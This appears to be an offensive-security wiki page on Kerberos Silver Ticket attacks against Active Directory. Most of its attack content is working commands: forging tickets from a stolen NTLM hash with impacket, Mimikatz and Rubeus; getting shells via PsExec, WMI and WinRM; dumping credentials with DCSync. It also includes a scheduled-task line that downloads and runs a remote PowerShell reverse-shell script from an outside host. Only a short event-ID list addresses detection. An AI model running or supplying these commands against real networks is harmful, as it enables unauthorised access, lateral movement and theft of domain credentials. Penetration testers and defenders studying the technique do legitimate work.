 # Silver Ticket

## Silver ticket

The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned** \(like the **PC account hash**\). Thus, it is possible to **gain access to that service** by forging a custom TGS **as any user**.

In this case, the NTLM hash of a computer account \(which is kind of a user account in AD\) is owned. Hence, it is possible to craft a ticket in order to get into that machine with administrator privileges through the SMB service. The computer accounts reset their passwords every 30 days by default.

It also must be taken into account that it is possible to forge tickets using the AES Kerberos keys \(AES128 and AES256\). To know how to generate an AES key read: [section 4.4 of MS-KILE](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/936a4878-9462-4753-aac8-087cd3ca4625) or the [Get-KerberosAESKey.ps1](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372).

{% code title="Linux" %}
```bash
python ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park -spn cifs/labwws02.jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache 
python psexec.py jurassic.park/stegosaurus@labwws02.jurassic.park -k -no-pass
```
{% endcode %}

In Windows, **Mimikatz** can be used to **craft** the **ticket**. Next, the ticket is **injected** with **Rubeus**, and finally a remote shell can be obtained thanks to **PsExec**.

{% code title="Windows" %}
```bash
#Create the ticket
mimikatz.exe "kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park"
#Inject in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi
#Obtain a shell
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
{% endcode %}

The **CIFS** service is the one that allows you to **access the file system of the victim**. You can find other services here: [**https://adsecurity.org/?page\_id=183**](https://adsecurity.org/?page_id=183)**.** For example, you can use the **HOST service** to create a _**schtask**_ in a computer. Then you can check if this has worked trying to list the tasks of the victim: `schtasks /S <hostname>` or you can use the **HOST and** **RPCSS service** to execute **WMI** queries in a computer, test it doing: `Get-WmiObject -Class win32_operatingsystem -ComputerName <hostname>`

### Mitigation

Silver ticket events ID \(more stealth than golden ticket\):

* 4624: Account Logon
* 4634: Account Logoff
* 4672: Admin Logon

\*\*\*\*[**More information about Silver Tickets in ired.team**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)\*\*\*\*

## Available Services

<table>
  <thead>
    <tr>
      <th style="text-align:left">Service Type</th>
      <th style="text-align:left">Service Silver Tickets</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">WMI</td>
      <td style="text-align:left">
        <p>HOST</p>
        <p>RPCSS</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">PowerShell Remoting</td>
      <td style="text-align:left">
        <p>HOST</p>
        <p>HTTP</p>
        <p>Depending on OS also:</p>
        <p>WSMAN</p>
        <p>RPCSS</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">WinRM</td>
      <td style="text-align:left">
        <p>HOST</p>
        <p>HTTP</p>
        <p>In some occasions you can just ask for: WINRM</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Scheduled Tasks</td>
      <td style="text-align:left">HOST</td>
    </tr>
    <tr>
      <td style="text-align:left">Windows File Share, also psexec</td>
      <td style="text-align:left">CIFS</td>
    </tr>
    <tr>
      <td style="text-align:left">LDAP operations, included DCSync</td>
      <td style="text-align:left">LDAP</td>
    </tr>
    <tr>
      <td style="text-align:left">Windows Remote Server Administration Tools</td>
      <td style="text-align:left">
        <p>RPCSS</p>
        <p>LDAP</p>
        <p>CIFS</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Golden Tickets</td>
      <td style="text-align:left">krbtgt</td>
    </tr>
  </tbody>
</table>

Using **Rubeus** you may **ask for all** these tickets using the parameter:

* `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`

## Abusing Service tickets

In the following examples lets imagine that the ticket is retrieved impersonating the administrator account.

### CIFS

With this ticket you will be able to access the `C$` and `ADMIN$` folder via **SMB** \(if they are exposed\) and copy files to a part of the remote filesystem just doing something like:

```bash
dir \\vulnerable.computer\C$
dir \\vulnerable.computer\ADMIN$
copy afile.txt \\vulnerable.computer\C$\Windows\Temp
```

You will also be able to obtain a shell inside the host or execute arbitrary commands using **psexec**:

{% page-ref page="../ntlm/psexec-and-winexec.md" %}

### HOST

With this permission you can generate scheduled tasks in remote computers and execute arbitrary commands:

```bash
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```

### HOST + RPCSS

With these tickets you can **execute WMI in the victim system**:

```bash
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list
```

Find **more information about wmiexec** in the following page:

{% page-ref page="../ntlm/wmicexec.md" %}

### HOST + WSMAN \(WINRM\)

With winrm access over a computer you can **access it** and even get a PowerShell:

```bash
New-PSSession -Name PSC -ComputerName the.computer.name; Enter-PSSession PSC
```

Check the following page to learn **more ways to connect with a remote host using winrm**:

{% page-ref page="../ntlm/winrm.md" %}

{% hint style="warning" %}
Note that **winrm must be active and listening** on the remote computer to access it.
{% endhint %}

### LDAP

With this privilege you can dump the DC database using **DCSync**:

```text
mimikatz(commandline) # lsadump::dcsync /dc:pcdc.domain.local /domain:domain.local /user:krbtgt
```

**Learn more about DCSync** in the following page:

{% page-ref page="dcsync.md" %}

